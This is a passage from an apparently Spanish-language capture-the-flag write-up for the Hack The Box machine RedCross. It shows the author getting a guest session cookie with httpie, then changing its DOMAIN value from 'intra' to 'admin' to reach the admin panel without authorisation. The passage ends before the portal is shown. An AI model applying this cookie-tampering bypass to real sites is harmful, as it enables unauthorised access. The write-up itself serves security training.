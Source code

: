 ``` text
[0 entries]
+----+------+-------+---------+
| id | body | cback | subject |
+----+------+-------+---------+
+----+------+-------+---------+

```

Bastante información, de la cual tenemos hashes bcrypt (tardaremos mucho para romperlas) y varias notas del subdomain admin que descubrimos anteriormente. No pudimos conseguir ninguna credencial mas que guest, pero había un detalle interesante sobre nuestra cookie que devolvía intra al ingresar, la variable **DOMAIN**. Probemos si el manejo de autenticación esta roto.

# Login on admin

También al leer la descripción del problema que reportan los usuarios detectaremos que se trata de un XSS. En este caso seguiremos el camino de manejo de cookies, gracias un *hit* de un mago.

Primero obtengamos una cookie de intra:

``` text
xbytemx@laptop:~/htb/redcross$ http --verify no -f POST "https://intra.redcross.htb/pages/actions.php" user=guest pass=guest submit=Login action=login

<omitiendo>

PHPSESSID=5a0o7947pk2gb11m6acglej5i6; LANG=EN_US; SINCE=1555227715; LIMIT=10; DOMAIN=intra;
```

Ahora cambiemos donde diga intra por admin y preparemos una petición GET:

``` text
xbytemx@laptop:~/htb/redcross$ http --verify no "https://admin.redcross.htb" "Cookie:PHPSESSID=5a0o7947pk2gb11m6acglej5i6; LANG=EN_US; SINCE=1555227715; LIMIT=10; DOMAIN=admin;"
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Length: 466
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Location: /?page=cpanel
Pragma: no-cache
Server: Apache/2.4.25 (Debian)

<center><a href=/><table border=0 width=95%><tr><td><table border=0><tr><td width=10% rowspan=2><img src='/images/it.svg' width='100%'></td><td valign='bottom'><h2>IT Admin panel</h2></td></tr><tr><td valign='top'><h3>Authorized personnel only</h3></td></tr></table></td><td width=100px><p style='font-size:75%'>[[guest]]</p><form action='/pages/actions.php' method='POST'><input type='submit' name='action' value='end session'></form></td></tr></table></a></center>

```

El portal que tenemos y debemos ver es el siguiente:

